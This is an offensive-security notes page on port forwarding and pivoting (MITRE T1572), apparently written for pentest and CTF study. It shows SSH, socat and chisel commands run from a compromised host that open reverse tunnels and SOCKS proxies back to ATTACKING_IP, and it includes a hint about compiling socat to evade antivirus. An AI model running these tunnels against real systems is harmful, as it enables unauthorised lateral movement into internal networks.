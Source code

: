 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572
---
```


# Port Forwarding

## Theory

Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

## Practice

### SSH tunneling

SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.\
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.

This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.

```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.

On a compromised computer (jump-server), we can connect back to the attackbox with a reverse port forward using the following command, this example produce the same result as previously seen with Local-Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:

```bash
PC> ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

### SOCAT

We can use static binaries of socat to pivot, they are easy to find for both Linux and Windows.

{% hint style="danger" %}
Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required.
{% endhint %}

{% tabs %}
{% tab title="Forward" %}
The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server.

```bash
PC> ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
{% endtab %}

{% tab title="Reverse" %}
First of all, on our own attacking machine, we issue the following command:

```bash
v4resk@kali$ ./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:

```bash
PC> ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Now throught `localhost:8000` we can access `172.16.0.10:80`

```bash
#Example
PC> ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```
{% endtab %}
{% endtabs %}

### CHISEL

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided).

{% tabs %}
{% tab title="Reverse Proxy" %}
We can do a Reverse Proxy with Chisel. This connects back from a compromised server to a listener waiting on our attacking machine:

```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```

On the compromised host, we would use the following command:

```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```
{% endtab %}

{% tab title="Forward Proxy" %}
We can do a Forward Proxy with Chisel

```bash
v4resk@kali$ ./chisel client TARGET_IP:LISTEN_PORT LOCAL_PROXY_PORT:socks
```

On the compromised host, we would use the following command:

```bash
www-data@pwned.lab$ ./chisel server -p LISTEN_PORT --socks5
```
{% endtab %}

{% tab title="ProxyChain" %}
A little reminder on how to use the proxy with ProxyChain. To use it you just have to add the following line to `/etc/proxychains.conf`:

```bash
socks5 127.0.0.1 1080
```
{% endtab %}

{% tab title="Reverse Forward" %}
To do a reverse port forwarding with chisel, we can do as follow:

```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```

On the compromised host, we would use the following command to. It will forward every requests sent to 8889 on the attacking host to the compromised host on localhost:6666

```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:8889:localhost:6666
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}

{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}

{% embed url="https://tryhackme.com/room/wreath" %}
